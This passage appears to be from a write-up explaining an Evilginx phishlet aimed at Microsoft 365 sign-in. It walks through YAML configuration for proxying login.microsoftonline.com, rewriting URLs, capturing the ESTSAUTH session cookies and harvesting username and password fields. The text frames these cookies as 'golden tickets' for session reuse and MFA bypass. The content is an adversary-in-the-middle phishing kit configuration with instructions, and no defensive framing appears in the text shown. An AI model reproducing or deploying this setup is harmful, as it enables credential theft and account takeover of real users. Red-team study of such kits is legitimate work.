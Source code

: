 Here’s a breakdown of the important sections of this phishlet:

#### Proxy Hosts
```yaml
proxy_hosts:
- {phish_sub: 'login', orig_sub: 'login', domain: 'microsoftonline.com', session: true, is_landing: true}
- {phish_sub: 'www', orig_sub: 'www', domain: 'office.com', session: false, is_landing: false}
```

These lines configure which subdomains to proxy:
- login.microsoftonline.com is the main auth portal.
- www.office.com is included in case the flow redirects post-login.
- session: true ensures tokens are captured on the login domain.

#### Substitution Filters
```yaml
sub_filters:
- {triggers_on: 'login.microsoftonline.com', search: 'href="https://{hostname}', replace: 'href="https://{hostname}', mimes: [...] }
- {..., redirect_only: true}
```
These filters rewrite specific URL and script references to ensure traffic routes through Evilginx’s proxy. Without these, the browser might bypass the proxy and contact Microsoft directly — breaking the phish.

#### Auth Tokens
```yaml
auth_tokens:
- domain: '.login.microsoftonline.com'
  keys: ['ESTSAUTH,opt', 'ESTSAUTHPERSISTENT,opt', '.*,regexp']
- domain: 'login.microsoftonline.com'
  keys: ['SignInStateCookie,opt', '.*,regexp']
```
This section tells Evilginx which cookies (tokens) to extract after authentication. These are the golden tickets — they allow session reuse and MFA bypass.


#### Credential Capture
```yaml
credentials:
username:
key: 'login'
search: '(.*)'
type: 'post'
password:
key: 'passwd'
search: '(.*)'
type: 'post'
```
Evilginx captures both the username and password fields during the login POST request. These are stored alongside the session tokens.


#### Auth URLs
```yaml
auth_urls:
- '/common/SAS/ProcessAuth'
- '/kmsi'
- '/'
```
These URLs define key endpoints to monitor for login completion. Evilginx watches these to determine when authentication is finished.

